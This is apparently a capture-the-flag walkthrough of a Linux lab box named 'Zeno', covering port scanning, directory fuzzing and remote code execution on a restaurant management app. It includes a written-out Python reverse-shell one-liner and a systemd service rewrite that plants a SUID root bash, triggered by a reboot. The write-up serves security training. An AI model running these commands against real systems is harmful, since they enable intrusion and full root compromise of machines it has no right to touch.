# Zeno

#Linux 

## Reconnaissance

I started running nmap and I got the following result.

```
$ nmap -p- -sV -sC -Pn 10.65.187.29
Starting Nmap 7.98 ( https://nmap.org ) at 2026-02-18 05:25 -0500
Stats: 0:03:26 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 50.00% done; ETC: 05:29 (0:00:12 remaining)
Nmap scan report for 10.65.187.29
Host is up (0.13s latency).
Not shown: 65336 filtered tcp ports (no-response), 197 filtered tcp ports (host-prohibited)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 09:23:62:a2:18:62:83:69:04:40:62:32:97:ff:3c:cd (RSA)
|   256 33:66:35:36:b0:68:06:32:c1:8a:f6:01:bc:43:38:ce (ECDSA)
|_  256 14:98:e3:84:70:55:e6:60:0c:c2:09:77:f8:b7:a6:1c (ED25519)
12340/tcp open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
|_http-title: We&#39;ve got some trouble | 404 - Resource not found
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 211.64 seconds
```

By accessing the port `12340`, I got this following page.

<figure><figcaption></figcaption></figure>

## Enumeration

Since I didn't find anything, I started enumerating directories and I found `rms` directory.

```
$ ffuf -u http://10.65.187.29:12340/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-directories.txt

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.65.187.29:12340/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-directories.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

rms                     [Status: 301, Size: 238, Words: 14, Lines: 8, Duration: 127ms]
```

Accessing this page, we can see a form. I create a register but there was nothing interesting.

<figure><figcaption></figcaption></figure>

I found previously an admin page, accessing it I noticed a "Pathfinder Hotel Restaurant", searching it on google, I found a public exploit that allows us to get a RCE. 

<figure><figcaption></figcaption></figure>

Using this following exploit, I got a RCE.



<figure><figcaption></figcaption></figure>

Accessing the page, I was able to run an `id` command.

<figure><figcaption></figcaption></figure>

Since I was able to run a command on the server, I used this command to get a reverse shell.

```
export RHOST="192.168.130.101";export RPORT=1337;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
```

<figure><figcaption></figcaption></figure>

But when I tried to read the first flag `user.txt`, I noticed that I didn't have permission to do that.

<figure><figcaption></figcaption></figure>

I tried to find some credential to access as `edward`. I found some credentials to access MySQL. 

<figure><figcaption></figcaption></figure>

Accessing MySQL, I noticed that the users was saved on `members` table.

<figure><figcaption></figcaption></figure>

I was able to get a hash from all users, but I couldn't find the password of `edward`.

<figure><figcaption></figcaption></figure>
## Login as `edward`

I ran Linpeas script, and I found the password for `edward` on `/etc/fstab` file. 

<figure><figcaption></figcaption></figure>

Since I was able to login as `edward`, I read the `user.txt`flag.

<figure><figcaption></figcaption></figure>

## Privilege Escalation

Also running Linpeas, I knew that I could edit the `zeno-monitoring.service` file located on `/etc/systemd/system`.

<figure><figcaption></figcaption></figure>

Taking a look on this script, we can see that it executes a `/root/zeno-monitoring.py` file.

<figure><figcaption></figcaption></figure>

Running `sudo -l` command, we can notice that we have permission to run `reboot` command. We can combine these two things to escalate our privilege.

<figure><figcaption></figcaption></figure>

First, I'm going to edit the `zeno-monitoring.service` file to get a shell. 

```
cat << EOF > /etc/systemd/system/zeno-monitoring.service
[Unit]
Description=Zeno monitoring

[Service]
Type=oneshot 
User=root
ExecStart=/bin/bash -c 'cp /bin/bash /home/edward/bash; chmod +xs /home/edward/bash'

[Install]
WantedBy=multi-user.target
EOF
```

After that, I'm going to reboot 

```
[edward@zeno home]$ sudo /usr/sbin/reboot 
```

Using `/home/edward/bash -p` we got a shell as a root. I was able to read the `root.txt` flag.

<figure><figcaption></figcaption></figure>


